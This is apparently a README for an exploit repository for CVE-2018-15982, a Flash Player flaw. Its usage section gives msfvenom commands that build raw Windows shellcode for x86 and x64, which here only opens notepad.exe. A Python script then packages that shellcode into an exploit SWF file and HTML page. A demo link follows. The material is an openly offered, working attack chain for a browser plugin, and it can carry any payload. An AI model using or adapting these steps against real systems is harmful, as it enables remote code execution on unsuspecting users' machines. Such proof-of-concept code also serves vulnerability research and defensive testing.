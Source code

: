 # CVE-2018-15982_EXP

## Usage

```
msfvenom -p windows/exec cmd=notepad.exe -f raw > 86.bin
msfvenom -p windows/x64/exec cmd=notepad.exe -f raw > 64.bin
python CVE_2018_15982.py -i 86.bin -I 64.bin
```

output `exp.swf` and `index.html`。

## Demo

https://twitter.com/Evi1cg/status/1071284773169950721
